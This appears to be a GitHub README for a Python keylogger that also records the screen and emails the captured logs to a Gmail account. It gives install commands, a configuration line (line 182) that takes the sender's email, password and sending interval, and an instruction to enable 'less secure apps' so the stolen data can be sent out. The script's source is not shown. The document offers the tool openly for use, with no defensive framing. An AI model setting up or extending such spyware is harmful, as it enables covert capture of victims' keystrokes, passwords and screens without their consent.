 # Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

# Installation

This script requires numpy, pyautogui, opencv, requests, pynput and pypiwin32.

Install packages from console

```bash
pip install numpy pyautogui opencv-python requests pynput pypiwin32
```

# Instructions

- This script requires continuous Internet connection

- Change 182 line in Python file to set your email and password **(ONLY GMAIL MAILBOX)**
```python
182. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

- **YOU NEED TO ALLOW LESS SECURE APPS ON YOUR GOOGLE ACCOUNT BEFORE USING THIS SCRIPT. YOU CAN DO IT HERE: https://myaccount.google.com/lesssecureapps**


> Example

```python
182. e = SendEmail('mailbox@gmail.com', 'password1', 10)
```

- Run script
